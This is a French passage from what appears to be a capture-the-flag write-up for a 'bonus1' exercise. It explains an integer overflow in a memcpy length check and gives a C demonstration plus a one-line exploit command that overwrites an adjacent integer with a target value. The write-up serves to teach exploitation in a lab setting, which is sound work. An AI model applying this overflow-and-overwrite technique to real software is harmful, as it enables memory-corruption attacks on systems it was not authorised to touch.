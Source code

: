 On remarque qu'entre le dest de memcpy et l'adresse de l'int qui est comparé à `0x574f4c46`, il y a 40 bytes de différence. On souhaiterait donc pouvoir écrire sur 44 bytes afin d'éditer l'int en question.

Heureusement on peut faire un underflow grâce à la multiplication par 4, on obtient donc
```c
#include <stdint.h>
#include <stdio.h>

int main(void) {
  int32_t a = -2147483648;

  a += 11;
  printf("%d\n", a); // -2147483637
  printf("%d\n", a * 4); // 44
}
```

Maintenant qu'on peut éditer l'int, il suffit de mettre 40 valeurs garbage + l'int voulu en hexa:
```bash
./bonus1 -2147483637 "$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')"
```
